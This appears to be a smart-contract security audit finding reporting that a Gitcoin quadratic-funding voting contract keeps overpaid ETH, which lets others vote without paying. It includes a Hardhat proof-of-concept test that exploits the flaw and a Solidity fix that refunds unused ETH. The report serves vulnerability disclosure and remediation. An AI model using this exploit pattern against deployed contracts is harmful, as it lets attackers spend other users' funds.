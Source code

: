 LuchoLeonel1

high

# Use ETH inside payoutStrategy contract to vote without paying

## Summary
If someone uses fewer votes than the amount of ETH paid, the funds remains inside the PayoutStrategy contract and anyone can use this ETH to vote without paying.

## Vulnerability Detail
Imagine a person who uses fewer votes than the amount of ETH paid. For example, because he makes a couple of votes at the same time and has a mathematical error.

In this case, the ETH will remain inside the PayoutStrategy contract and anyone can use it to vote.

This happens because the vote function doesn't check if the user sends any msg.value, but just emits the Event for the vote cast and sends the ETH to the _grantAddress.

Taking advantage of this, anyone who sees that the PayoutStrategy contract has ETH can send encodedVotes for the value of ETH that the contract has and use it to vote.

**Proof of concept:**
```typescript
await round.connect(player).vote([ethers.utils.defaultAbiCoder.encode(
    ["address", "uint256", "address", "bytes32"],
    [
        ethers.constants.AddressZero,
        // Amount of votes
        900_000,
        player.address,
        ethers.utils.hexZeroPad(projectID.toHexString(), 32),
    ]
)],
// Amount of ETH sent
{ value: 1_000_000 }
);

// There are 100_000 in ETH inside the votingStrategy contract
expect(await ethers.provider.getBalance(votingStrategy.address)).to.equal(100_000);

// Someone else uses this ETH to vote
const vote2Tx = await round.connect(anotherPerson).vote([ethers.utils.defaultAbiCoder.encode(
    ["address", "uint256", "address", "bytes32"],
    [
        ethers.constants.AddressZero,
        // Amount of votes
        100_000,
        anotherPerson.address,
        ethers.utils.hexZeroPad(projectID.toHexString(), 32),
    ]
)]
// No ETH sent
);

await expect(vote2Tx).to.emit(
    votingStrategy, 'Voted'
).withArgs(
    ethers.constants.AddressZero,
    100_000,
    anotherPerson.address,
    anotherPerson.address,
    projectID,
    round.address
);

// Now the contract has 0 ETH
expect(await ethers.provider.getBalance(votingStrategy.address)).to.equal(0);
```

## Impact
By one person's mistake, anyone could be able to vote without paying.

## Code Snippet

QuadraticFundingVotingStrategyImplementation.sol

Doesn't check for msg.value when sending ETH
[https://github.com/sherlock-audit/2023-03-Gitcoin/blob/main/contracts/contracts/votingStrategy/QuadraticFundingStrategy/QuadraticFundingVotingStrategyImplementation.sol#L73-L77](https://github.com/sherlock-audit/2023-03-Gitcoin/blob/main/contracts/contracts/votingStrategy/QuadraticFundingStrategy/QuadraticFundingVotingStrategyImplementation.sol#L73-L77)

Function is payable
[https://github.com/sherlock-audit/2023-03-Gitcoin/blob/main/contracts/contracts/votingStrategy/QuadraticFundingStrategy/QuadraticFundingVotingStrategyImplementation.sol#L55](https://github.com/sherlock-audit/2023-03-Gitcoin/blob/main/contracts/contracts/votingStrategy/QuadraticFundingStrategy/QuadraticFundingVotingStrategyImplementation.sol#L55)


## Tool used

Manual Review, Hardhat

## Recommendation
Send back to the user the ETH not used to vote.
```solidity
function vote(bytes[] calldata encodedVotes, address voterAddress) external override payable nonReentrant isRoundContract {
+  uint256 ethUsed = 0;

   for (uint256 i = 0; i < encodedVotes.length; i++) {

        (
            address _token,
            uint256 _amount,
            address _grantAddress,
            bytes32 _projectId
        ) = abi.decode(encodedVotes[i], (
            address,
            uint256,
            address,
            bytes32
        ));

        if (_token == address(0)) {
+           ethUsed = ethUsed + _amount;
            AddressUpgradeable.sendValue(payable(_grantAddress), _amount);
        } else {
            SafeERC20Upgradeable.safeTransferFrom(
            IERC20Upgradeable(_token),
            voterAddress,
            _grantAddress,
            _amount
            );
  
        }

        emit Voted(
            _token,
            _amount,
            voterAddress,
            _grantAddress,
            _projectId,
            msg.sender
        );

    }

+   uint ethDiff = msg.value - ethUsed;
+   if (ethDiff > 0) {
+       AddressUpgradeable.sendValue(payable(voterAddress), ethDiff);
+   }
    
}

```

